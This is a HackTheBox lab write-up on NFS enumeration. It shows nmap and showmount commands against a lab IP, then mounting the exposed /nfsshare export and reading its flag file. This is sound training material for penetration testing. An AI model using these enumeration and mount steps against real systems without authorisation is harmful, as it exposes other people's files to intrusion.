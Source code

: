 # Day20 - dns_footprinting

- **Platform**: HackTheBox  
- **Category**: Networking  
- **Difficulty**: Easy  
- **Date**: 2025-05-20  
- **Tools Used**: dig, dnsenum, nmap, showmount  

---

## Summary
The challenge involved DNS and NFS enumeration. After identifying an NFS service through `rpcbind`, I used `showmount` to find the exported share `/nfsshare`, mounted it locally, and retrieved the flag.

---

## Enumeration
- Ran Nmap to identify RPC services:
  ```bash
  sudo nmap -p111 -sV -sC 10.129.42.178
  ```
  - Port 111 open (rpcbind).  
  - NSE `rpcinfo` revealed an NFS export (program 100003).  

- Listed available NFS exports:
  ```bash
  showmount -e 10.129.42.178
  ```
  - Export list:
    ```
    /nfsshare 10.129.0.0/16
    ```

---

## Exploitation
1. Created a local mount point:
   ```bash
   mkdir -p ./target-NFS
   ```

2. Mounted the export with `nolock` option:
   ```bash
   sudo mount -t nfs 10.129.42.178:/nfsshare ./target-NFS/ -o nolock
   ```

3. Retrieved the flag:
   ```bash
   ls ./target-NFS/
   # flag.txt

   cat ./target-NFS/flag.txt
   # HTB{nfs_exposed_flag_txt}
   ```

---

## Lessons Learned
- Always enumerate RPC services with `rpcinfo` and `showmount` after detecting rpcbind.  
- The `nolock` option is useful when lock daemons are unavailable.  
- NFS misconfigurations often expose sensitive files to unauthenticated users.  
- Quick wins: insecure NFS shares can lead directly to flag retrieval without further exploitation.  
